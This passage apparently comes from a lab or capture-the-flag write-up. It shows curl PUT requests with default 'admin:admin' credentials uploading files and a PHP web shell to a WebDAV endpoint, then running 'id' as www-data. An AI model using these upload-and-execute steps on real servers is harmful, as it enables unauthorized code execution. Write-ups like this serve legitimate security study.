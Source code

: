 Given I can access `door.legacyhangtuah.com/webdav`, and I find the `admin:admin` credentials for basic auth, and I read in Hacktricks that `WebDAV` is used to handle files, and the server runs `Apache` with a PHP backend, then I start looking for a way to perform a reverse shell. when I make a `PUT` request to a new endpoint `test` with the `curl` command:
```shell
$ curl -X PUT door.legacyhangtuah.com/webdav/test \
> -u 'admin:admin' -v -d "Data"
...SNIPPED...
< HTTP/1.1 201 Created
...SNIPPED...
<p>Resource /webdav/test has been created.</p>
...SNIPPED...
```
Then it seems that the file was created. When I check with a `GET` request to `/webdav/test`:
```shell
$ curl door.legacyhangtuah.com/webdav/test -u 'admin:admin'
Data
```
then I can see the word 'Data', and if I check the directory listing, now the `test` file appeard:

![evidence](./static/05-put-test.png)

When I upload PHP code to `/webdav/cmd_id.php`:
```shell
$ curl -X PUT door.legacyhangtuah.com/webdav/cmd_id.php \
> -u 'admin:admin' -v -d "<?php system('id'); ?>"
```
And I make a GET request to /webdav/cmd_id.php:
```shell
$ curl door.legacyhangtuah.com/webdav/cmd_id.php -u 'admin:admin'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I can conclude that the server is vulnerable to PHP command injection.
